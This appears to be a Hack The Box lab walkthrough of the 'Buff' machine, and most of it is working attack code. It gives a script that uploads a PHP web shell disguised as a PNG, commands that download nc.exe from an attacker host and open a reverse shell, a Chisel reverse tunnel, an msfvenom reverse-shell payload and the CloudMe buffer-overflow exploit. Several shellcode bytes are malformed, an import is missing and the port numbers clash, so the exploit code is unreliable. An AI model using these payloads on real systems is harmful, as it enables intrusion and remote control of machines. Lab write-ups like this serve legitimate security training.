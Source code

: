 
# HTB Buff Walkthrough

## Enumeration

```bash
nmap -sC -sV 10.10.10.198 -oA nmap -Pn
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

Visiting the site, I found out that it is using Gym Management Software 1.0, which suffers from an unauthenticated file upload vulnerability that can lead to Remote Code Execution (RCE).

From the website of Gym Management Software, we can download the source code and check for the `upload.php`.

## Exploitation

Using a simple Python script, we can upload a shell.

### Python Script:

```python
#!/usr/bin/env python3
import requests

def Main():
    url = "http://10.10.10.198:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)

    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'test.php.png',
            PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }

    data = {'pupload': 'upload'}
    
    # Send the POST request to upload the file
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()
```

### Code Explanation

1. **Purpose of the Script:**
   The script is designed to exploit a file upload vulnerability on a web application running on `http://10.10.10.198:8080/upload.php`. It uploads a web shell disguised as a PNG image, allowing the attacker to execute commands remotely via the `cmd` parameter in the web shell.

2. **Key Components:**

   - **PNG_magicBytes:**
     PNG files start with specific magic bytes to indicate that they are valid PNG files. This script includes these bytes (`\x89\x50\x4e\x47\x0d\x0a\x1a`) at the start of the uploaded file to fool the application into thinking the file is a real PNG image.

   - **Web Shell Content:**
     The PHP code in the file being uploaded:
     ```php
     <?php echo shell_exec($_GET["cmd"]); ?>
     ```
     This code executes any command provided through the `cmd` parameter in the URL. For example:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=whoami
     ```
     would execute the `whoami` command on the server.

   - **Upload Request:**
     The script creates a fake "image" with the required PNG magic bytes and the PHP web shell:
     ```python
     PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>'
     ```
     The file is sent to the server using a POST request:
     ```python
     r = s.post(url=url, files=png, data=data, verify=False)
     ```

   - **Accessing the Web Shell:**
     Once uploaded, the web shell will be available at:
     ```
     http://10.10.10.198:8080/upload/test.php
     ```
     Commands can be executed by appending them as the `cmd` parameter:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=<COMMAND>
     ```

     Use Burp Suite to execute this (URL encode):
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=Powershell Invoke-WebRequest -Uri http://10.10.14.6:80/nc.exe -Outfile /users/public/nc.exe
     ```

     Execute the `nc.exe`:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=/users/public/nc.exe 10.10.14.6 9000 -e cmd.exe
     ```

## Privilege Escalation

The server is communicating with port 8888.

1. **Use Chisel to tunnel communication into the attacker's machine:**

   - [Chisel GitHub](https://github.com/jpillora/chisel)
   
   Upload `chisel.exe` to the victim's machine.

2. **Setup a listening server on the attacker's machine:**

   ```bash
   ./chisel server -p 9999 --reverse
   ```

3. **Listen to the server on the victim's side:**

   ```bash
   chisel.exe client 10.10.14.6:9999 R:8888:127.0.0.1:888
   ```

Once the tunnel is created, craft the buffer overflow exploit.

### Install ExploitDB:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Search for the exploit:

```bash
searchsploit cloudme
```

Found: `CloudMe 1.11.2 - Buffer Overflow (PoC)`  
Location: `windows/remote/48389.py`

```bash
└──╼ [★]$ find / 2>/dev/null | grep 48389.py
/usr/share/exploitdb/exploits/windows/remote/48389.py
```

Copy to `HTB/Buff`:

```bash
cp /usr/share/exploitdb/exploits/windows/remote/48389.py ~/HTB/Buff/exploit.py
```

Now, craft the payload using `msfvenom`:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

Put the payload in `exploit.py`:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

import socket
target = "127.0.0.1"
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24xf4\xbd\x8e\xc1\x90\xf2\x58"
buf += b"\x31xc9\xb1\x52\x31\x68\x17\x03\x68\x17\x83\x4e"
buf += b"\xc5\x72\x07\xb2\x2e\xf0\xe8\x4a\xaf\x95\x61\xaf"
# More shellcode here...
payload = buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

### Setup a Listener on Port 9001

Run the exploit:

```bash
python exploit.py
```
